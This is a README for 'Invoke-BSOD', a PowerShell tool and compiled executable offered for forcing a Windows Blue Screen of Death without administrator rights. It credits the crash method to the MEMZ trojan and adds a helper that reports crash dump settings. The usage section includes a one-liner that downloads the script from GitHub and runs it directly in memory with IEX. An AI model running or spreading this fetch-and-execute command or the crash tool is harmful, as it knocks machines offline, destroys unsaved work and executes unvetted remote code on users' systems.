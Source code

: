 # Invoke-BSOD
For when you want a computer to be done - without admin!

BSOD method from here: https://github.com/Leurak/MEMZ/blob/master/WindowsTrojan/Source/Destructive/KillWindows.c#L10-L18

### Invoke-BSOD.ps1

A PowerShell script to induce a Blue Screen of Death (BSOD) without admin privileges. Also enumeartes Windows crash dump settings.

This is a standalone script, **it does not depend on any other files here.**

#### Invoke-BSOD
Invokes the Blue Screen of Death.

#### Get-DumpSettings
Returns the current crash dump settings so you'll know what type of dump you are going to generate, and where it is going to be.

More information on the types of dump files here:
https://docs.microsoft.com/en-us/windows-hardware/drivers/debugger/varieties-of-kernel-mode-dump-files

#### Usage:
```
PS>Import-Module .\Invoke-BSOD.ps1
PS>Get-DumpSettings

  Name                           Value
  ----                           -----
  DumpFileLocation               C:\WINDOWS\MEMORY.DMP
  OverwritePrevious              True
  AutoReboot                     True
  AutoDeleteWhenLowSpace         False
  SystemLogEvent                 True
  CrashDumpMode                  Automatic Memory Dump
  
PS>Invoke-BSOD
```
#### OR...
```
PS>IEX((New-Object Net.Webclient).DownloadString('https://raw.githubusercontent.com/peewpw/Invoke-BSOD/master/Invoke-BSOD.ps1'));Invoke-BSOD
```
### BSOD.exe

A compiled executable that also creates a Blue Screen of Death.

Useful when you don't have PowerShell?

### Program.cs

The C# source behind BSOD.exe
